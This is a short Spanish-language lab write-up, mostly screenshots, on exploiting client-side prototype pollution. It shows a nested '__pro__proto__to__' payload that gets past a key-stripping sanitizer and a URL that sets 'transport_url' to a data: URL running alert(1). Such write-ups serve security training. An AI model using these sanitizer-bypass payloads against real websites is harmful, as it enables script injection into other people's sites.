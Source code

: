 ![[Pasted image 20230528195512.png]]

al cargar el lab nos damos cuenta que el sitio tiene una funcion para sanitizar los inputs:

![[Pasted image 20230528195805.png]]

probando el funcionamiento de esta opcion:

/?__proto__.foo=bar

![[Pasted image 20230528200234.png]]

intentando con este payload:

?__pro__proto__to__[foo]=bar

![[Pasted image 20230528200815.png]]

ahora para ejecutar codigo verificamos la funcion posterior a la sanitizacion:

![[Pasted image 20230528201005.png]]

vemos que config.transport.url hace la magia de la ejecuion:

?__pro__proto__to__[transport_url]=data.,alert(1);

si el payload no funciona se obtiene este error en el script:

![[Pasted image 20230528201323.png]]

intentando nuevamente:

/?__pro__proto__to__[transport_url]=data:,alert(1);

![[Pasted image 20230528201441.png]]


![[Pasted image 20230528201525.png]]

